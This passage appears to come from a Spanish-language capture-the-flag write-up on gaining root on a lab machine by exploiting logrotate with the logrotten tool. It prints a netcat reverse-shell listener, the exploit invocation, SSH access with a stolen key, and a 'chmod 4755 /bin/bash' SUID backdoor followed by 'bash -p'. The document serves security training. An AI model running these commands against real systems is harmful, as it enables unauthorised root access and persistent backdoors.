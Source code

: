 Nos ponemos en escucha por el puerto 443

```bash
nc -nlvp 443
```

Lanzamos el script

```bash
logrotten -p payloadfile /home/reader/backups/access.log
```

Nos conectamos nuevamente por ssh a la maquina victima para modificar el fichero `access.log`

```bash
ssh reader@10.10.10.176 -i id_rsa

echo "s4vitar" > backups/access.log
```

Esperamos un poco y ganamos accesso al systema. Pero se desconecta bastante rapido. Volvemos nuevamente a lanzar el script
y rapidamente colamos un `chmod 4755 /bin/bash` de seguida que ganamos accesso al systema antes que se desconnecte.

Desde una shell ssh ya podemos lanzar un `bash -p` y leer el fichero `root.txt`